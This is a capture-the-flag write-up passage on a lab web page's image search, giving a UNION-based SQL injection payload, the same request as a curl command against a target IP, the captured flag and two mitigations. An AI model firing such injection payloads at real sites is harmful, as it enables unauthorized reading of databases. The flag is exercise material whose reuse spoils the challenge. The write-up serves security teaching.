 ## Exploit: SQL injection in images list
The `searchimg` page also as a similar SQL injection vulnerability to the members page, we can instantly get the flag instructions by inputting the following SQL command

```SQL
0=0 UNION SELECT url, id FROM list_images UNION SELECT url, title FROM list_images UNION SELECT url, comment FROM list_images 
```

Below is the SQL command in curl
```
curl "$TARGET_IP/?page=searchimg&id=0%3D0+UNION+SELECT+url%2C+id+FROM+list_images+UNION+SELECT+url%2C+title+FROM+list_images+UNION+SELECT+url%2C+comment
+FROM+list_images+&Submit=Submit#" | grep flag
```

Which gives us the output
![image](https://hackmd.io/_uploads/HyDahbbQxg.png)

The following is the decoding and encryption process
![image](https://hackmd.io/_uploads/B1Xla-b7ex.png)

![image](https://hackmd.io/_uploads/ryAfabWXex.png)

> The flag is `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

### Mitigations
- Use prepared statements in SQL queries
- Avoid storing sensitive information in readable fields (comments)
